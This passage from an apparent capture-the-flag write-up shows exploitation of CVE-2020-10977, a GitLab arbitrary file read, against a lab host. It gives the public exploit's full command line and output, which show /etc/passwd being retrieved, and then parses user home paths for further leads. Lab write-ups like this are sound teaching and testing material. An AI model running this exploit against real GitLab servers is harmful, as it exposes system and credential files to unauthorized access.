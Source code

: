 After a few attempts I had no success with the provided scripts. Researching a little more, I came across [CVE-2020-10977 in MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-10977) which is related to the vulnerability we're trying to abuse and, after finding it, I found another exploit in GitHub in [thewhiteh4t/cve-2020-10977: GitLab 12.9.0 Arbitrary File Read (github.com)](https://github.com/thewhiteh4t/cve-2020-10977) which was later used.

With this script we were able to confirm that it is vulnerable and be able to read the `/etc/passwd`.

```bash
$ python3 ./cve_2020_10977.py https://git.laboratory.htb dummy P@ssw0rd                                   
----------------------------------                                                                       
--- CVE-2020-10977 ---------------       
--- GitLab Arbitrary File Read ---               
--- 12.9.0 & Below ---------------    
----------------------------------                                                                       
                                                                                                         
[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]
                                                                                                         
[+] Target        : https://git.laboratory.htb                                                           
[+] Username      : dummy                                                                                
[+] Password      : P@ssw0rd
[+] Project Names : ProjectOne, ProjectTwo

[!] Trying to Login...         
[+] Login Successful!
[!] Creating ProjectOne...
[+] ProjectOne Created Successfully!
[!] Creating ProjectTwo...
[+] ProjectTwo Created Successfully!
[>] Absolute Path to File : /etc/passwd
[!] Creating an Issue...
[+] Issue Created Successfully!
[!] Moving Issue...
[+] Issue Moved Successfully!
[+] File URL : https://git.laboratory.htb/dummy/ProjectTwo/uploads/09bddb24c9ac93d1a011f6ed14054a66/passwd

> /etc/passwd
```

Checking the contents of `/etc/passwd` we can see that the users of this box, besides *root* and *ssh* share the `/var/opt/gitlab` in their home paths, where we'll look for interesting files.

```bash
$ cat etc_passwd | grep sh | awk -F":" '{print $6","$1}'
/root,root
/var/run/sshd,sshd
/var/opt/gitlab,git
/var/opt/gitlab/postgresql,gitlab-psql
/var/opt/gitlab/mattermost,mattermost
/var/opt/gitlab/registry,registry
/var/opt/gitlab/prometheus,gitlab-prometheus
/var/opt/gitlab/consul,gitlab-consul
```

